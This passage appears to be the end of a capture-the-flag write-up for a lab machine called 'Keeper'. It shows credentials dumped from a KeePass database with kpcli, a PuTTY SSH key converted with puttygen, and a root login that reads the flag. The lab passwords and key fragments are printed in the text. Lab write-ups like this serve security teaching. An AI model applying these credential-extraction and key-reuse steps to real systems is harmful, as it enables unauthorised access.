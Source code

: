 ```bash
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
...

kpcli:/passcodes/Network> show -f 1

Title: Ticketing System
Uname: lnorgaard
 Pass: Welcome2023!
  URL: 
Notes: http://tickets.keeper.htb
```

The file contained an SSH private key in the format used by Putty. I saved it to a file, and converted it to something OpenSSH could use.

```bash
$ puttygen puttyfile -O private-openssh -o root.key
```

I used the key to connect as root and read the flag.

```bash
$ ssh -i root.key root@target
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41

root@keeper:~# cat root.txt 
REDACTED
```